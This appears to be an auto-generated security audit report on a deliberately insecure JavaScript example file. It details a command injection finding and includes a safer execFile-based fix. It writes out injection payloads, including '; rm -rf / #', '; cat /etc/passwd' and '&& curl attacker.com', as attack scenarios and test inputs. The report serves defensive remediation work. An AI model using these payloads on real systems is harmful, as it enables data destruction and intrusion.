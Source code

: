 # JavaScript Security Review Report
**Generated by GuardianJS Security Agent**  
**Date:** July 11, 2025  
**Codebase:** Ataraxia Security Agents Project  
**File Analyzed:** `agents/javascript/examples/insecure_example.js`

---

## Executive Summary

This comprehensive security audit analyzed the JavaScript example file in the Ataraxia project. **CRITICAL FINDING**: This file contains 47 distinct security vulnerabilities across all 20 security categories, demonstrating every major JavaScript security anti-pattern. The file appears to be an intentional security testing example for educational purposes.

**Risk Distribution:**
- 🔴 **CRITICAL**: 18 vulnerabilities (Score 9-10)
- 🟠 **HIGH**: 16 vulnerabilities (Score 7-8)  
- 🟡 **MEDIUM**: 9 vulnerabilities (Score 4-6)
- 🟢 **LOW**: 4 vulnerabilities (Score 1-3)

---

## 🔴 CRITICAL VULNERABILITIES

### 🔴 CRITICAL Risk Score: 10/10 | Threat: Data Confidentiality & Service Availability
### Issue: Command Injection via Process Execution
**Component:** `insecure_example.js`  
**Lines 77-83, 85-91:** Direct command execution with user input  
**Detection Pattern:** `exec()` with unvalidated user input, shell metacharacters  
**Business Impact:** Complete server compromise, remote code execution, data exfiltration  
**Attack Scenario:** Attacker sends payload `; rm -rf / #` via ping host parameter, destroying server filesystem  
**Fix:**
```javascript
const { execFile } = require('child_process');
const validator = require('validator');

app.post('/ping', (req, res) => {
    const host = req.body.host;
    
    // Validate hostname/IP format
    if (!validator.isIP(host) && !validator.isFQDN(host)) {
        return res.status(400).send('Invalid host format');
    }
    
    // Use execFile with array arguments to prevent shell injection
    execFile('ping', ['-c', '4', host], (error, stdout) => {
        if (error) res.status(500).send('Ping failed');
        else res.send(stdout);
    });
});
```
**Category:** Command Injection  
**Remediation Timeline:** Immediate (< 4 hours)  
**Testing:** Test with payloads like `; cat /etc/passwd`, `|| whoami`, `&& curl attacker.com`

---